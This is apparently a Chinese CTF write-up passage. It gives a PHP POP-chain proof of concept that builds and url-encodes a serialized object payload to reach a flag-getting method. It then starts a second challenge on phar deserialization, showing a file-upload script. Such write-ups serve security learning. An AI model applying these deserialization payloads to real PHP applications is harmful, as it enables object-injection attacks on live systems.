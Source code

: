 简单的pop链

w22m _destruct =》w33m _toString =》w44m Getflag

poc：

```php
<?php

class w44m{
    private $admin = 'w44m';
    protected $passwd = '08067';
}

class w22m{
    public $w00m;
    public function __construct(){
        $this->w00m = new w33m();
    }
}

class w33m{
    public $w00m;
    public $w22m;
    public function __construct(){
        $this->w00m = new w44m();
        $this->w22m = "Getflag";
    }
}


$a = new w22m();
echo urlencode(serialize($a));
```

private属性存在不可见字符，urlencode一下传入即可，浏览器会自己urldecode



### babyunser

phar反序列化

在read.php可以读源码

```php
# upload.php

<?php
    if(isset($_POST['submit'])){
        $upload_path="upload/".md5(time()).".txt";
        $temp_file = $_FILES['upload_file']['tmp_name'];
        if (move_uploaded_file($temp_file, $upload_path)) {
            echo "文件路径：".$upload_path;
        } else {
            $msg = '上传失败';
        }
    }

```
